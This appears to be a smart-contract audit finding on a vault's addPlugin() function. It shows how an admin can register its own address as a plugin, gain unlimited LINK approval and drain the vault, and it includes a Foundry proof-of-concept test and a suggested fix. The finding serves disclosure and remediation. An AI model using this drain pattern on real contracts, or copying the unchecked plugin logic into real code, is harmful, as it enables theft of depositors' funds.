 CRYP70

medium

# Users can be rugged by the admin user

## Summary
The `addPlugin()` function is used to include external smart contracts such as `Aave`'s `v2 LendingPool` to increase yield over time for LINK tokens. Due to a lack of sanity checks, the admin can rug users of all the link tokens in the vault. 

## Vulnerability Detail
when calling `addPlugin()`, the admin user can use this in an unintended way by specifying themselves as a "plugin" and pass their own address which will approve themselves to the maximum (`type(uint256).max`) number of LINK tokens contained in the vault. The admin is then free to transfer all link tokens out of the vault and into their wallet. This was awarded a "Medium" in severity because this finding relies on a malicious admin. 

## Impact
A malicious admin can steal all user funds. 
Even if the user is benevolent by the fact that there is a rug vector available, it may [negatively impact the protocol’s reputation](https://twitter.com/RugDocIO/status/1411732108029181960).

## Code Snippet 
https://github.com/sherlock-audit/2022-10-mycelium/blob/main/mylink-contracts/src/Vault.sol#L314-L316
https://github.com/sherlock-audit/2022-10-mycelium/blob/main/mylink-contracts/src/Vault.sol#L326

## Proof of Concept
```solidity
pragma solidity ^0.8.9;

import "../../lib/forge-std/src/Test.sol";
import "../../lib/forge-std/src/console.sol";
import "../../src/Vault.sol";
import "../../src/AttackerContract.sol";
import "../utils/Token.sol";
import "openzeppelin/proxy/ERC1967/ERC1967Proxy.sol";


contract MyTests is Test {
    Token public link;
    Vault public vault;
    address implementation;
    address proxy;

    address public alice = vm.addr(1);
    address public bob = vm.addr(2);
    address public carol = vm.addr(3);
    address public dan = vm.addr(4);
    address public eve = vm.addr(5);
    address public frank = vm.addr(6);
    address public admin = vm.addr(7);

    function setUp() public {

        link = new Token("Chainlink", "LINK");
        vm.startPrank(address(admin));
        implementation = address(new Vault());
        proxy = address(new ERC1967Proxy(implementation, ""));
        vault = Vault(proxy);
        vault.initialize(address(link), address(admin), 10e34, 1000);
        vm.stopPrank();
    }

    function testRugVector() public {
        link.mint(address(vault), 10000 ether);
        link.mint(address(alice), 1000 ether);

        vm.startPrank(address(alice));
        link.approve(address(vault), 1000 ether);
        vault.deposit(1000 ether);
        vm.stopPrank();

        uint256 vaultBalanceBeforeRug = link.balanceOf(address(vault));

        vm.startPrank(address(admin));
        vault.addPlugin(address(admin), 0);
        link.transferFrom(address(vault), address(admin), link.balanceOf(address(vault)));
        vm.stopPrank();

        uint256 adminBalancePostRug = link.balanceOf(address(admin));
        assertEq(vaultBalanceBeforeRug, adminBalancePostRug);

    }
}
```

## Tool used
Manual Review.

## Recommendation
I recommend checking that the owner cannot use their own address as a plugin. In addition to this I recommend a check that EOA's cannot be used as plugins. See the example function to check if an address contains code below:
```solidity
function isContract(address _addr) private returns (bool isContract){
  uint32 size;
  assembly {
    size := extcodesize(_addr)
  }
  return (size > 0);
}
```
This will prevent the entire vault's balance from being transferred at once by a single EOA. 
